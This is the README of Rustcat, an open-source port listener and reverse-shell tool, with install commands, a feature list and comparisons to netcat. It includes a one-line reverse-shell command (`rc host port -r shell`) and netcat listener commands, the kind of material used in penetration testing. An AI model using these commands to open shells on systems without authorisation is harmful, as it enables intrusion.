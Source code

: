 <div align="center" >
  <br>
  <img src="https://raw.githubusercontent.com/robiot/rustcat/main/img/banner.png">
  <br>
  
  <img alt="GitHub All Releases" src="https://img.shields.io/github/contributors/robiot/rustcat?label=Contributors">
  <img alt="GitHub Latest Release" src="https://img.shields.io/github/v/tag/robiot/rustcat?label=Latest%20Release">
  <img alt="AUR version" src="https://img.shields.io/aur/version/rustcat">
  <img alt="Crates.io" src="https://img.shields.io/crates/d/rustcat?label=Cargo%20Downloads">
  <img alt="GitHub All Releases" src="https://img.shields.io/github/downloads/robiot/rustcat/total?label=GitHub%20Downloads">
  <img alt="Build Stats" src="https://github.com/robiot/rustcat/actions/workflows/rust.yml/badge.svg">
  <hr>
</div>

| **[Cargo][cargo_lnk]**                | **[Arch Linux][arch_lnk]**            | **[BlackArch][barch_lnk]**            | **[Debian/Kali][kali_lnk]**
|:-------------------------------------:|:-------------------------------------:|:-------------------------------------:|:-------------------------------------:|
| [![cargo_img]][cargo_lnk]             | [![arch_img]][arch_lnk]               | [![barch_img]][barch_lnk]             | [![kali_img]][kali_lnk]               |
| `cargo install rustcat`               | `yay -S rustcat`                      | `pacman -S rustcat`                   | [Read the install guide][debian_guide]|
| **[Funtoo][funtoo_lnk]**              | **[Other][other_lnk]**                |                                       |                                       |
| [![funtoo_img]][funtoo_lnk]           | [![other_img]][other_lnk]             |                                       |                                       |
| `emerge rustcat`                      | [Read the install guide][other_guide] |                                       |                                       |

[cargo_lnk]: https://crates.io/crates/rustcat
[cargo_img]: https://raw.githubusercontent.com/robiot/rustcat/main/img/icons/cargo.png

[arch_lnk]: https://aur.archlinux.org/packages/rustcat/
[arch_img]: https://raw.githubusercontent.com/robiot/rustcat/main/img/icons/arch.png

[barch_lnk]: https://www.blackarch.org/tools.html
[barch_img]: https://raw.githubusercontent.com/robiot/rustcat/main/img/icons/blackarch.png

[kali_lnk]: https://github.com/robiot/rustcat
[kali_img]: https://raw.githubusercontent.com/robiot/rustcat/main/img/icons/kali.png
[debian_guide]: https://github.com/robiot/rustcat/wiki/Installation-Guide#kalidebian

[funtoo_lnk]: https://github.com/funtoo/net-kit/tree/1.4-release/net-analyzer/rustcat
[funtoo_img]: https://raw.githubusercontent.com/robiot/rustcat/main/img/icons/funtoo.png

[other_lnk]: https://github.com/robiot/rustcat
[other_img]: https://raw.githubusercontent.com/robiot/rustcat/main/img/icons/others.png
[other_guide]: https://github.com/robiot/rustcat/wiki/Installation-Guide
<hr>

# 🤔 What Is Rustcat?
![Ex](https://raw.githubusercontent.com/robiot/rustcat/main/img/example.gif)

🎨 Rustcat is a modern port listener & Reverse Shell that is very easy to use.

# ✨ Features
* Listen on ports
* Command history & Tab completion
* Reverse shell
* Udp
* Colors

# ⚙️ Why Rustcat?

## 👶 Everything Easy
![Ex](https://raw.githubusercontent.com/robiot/rustcat/main/img/easy-revshell.gif)

Starting a listener is just as simple as `rc -lp port`. While in netcat you would do something like `nc -nlvp port` to get the same results.

And creating a reverse shell has never been easier, `rc host port -r shell` is all you need. No more long /dev/tcp stuff that you always forget.

## 📃 Command History
![Ex](https://raw.githubusercontent.com/robiot/rustcat/main/img/history.gif)

Command history is something we all need. How annoying isn't it when you accidently type a long command wrong, then you have to rewrite the entire thing.

But Rustcat fixes that with command history. Just add -H and you will get command history (`rc -lHp port`) and command completion, unlike netcat where you have to use another application and do `rlwrap -cAr nc -nlvp port` to get the same results.

When adding -H, the shell will almost work like a ssh shell.

## 🎨 Appearance
A little splash of color doesn't hurt :).

## 🌀 Cross Platform
Rustcat supports unix and windows systems.

# 📖 Installation Guide
You can find the guide [here](https://github.com/robiot/rustcat/wiki/Installation-Guide)

# 💡 Usage
A basic usage guide can be found [here](https://github.com/robiot/rustcat/wiki/Basic-Usage)
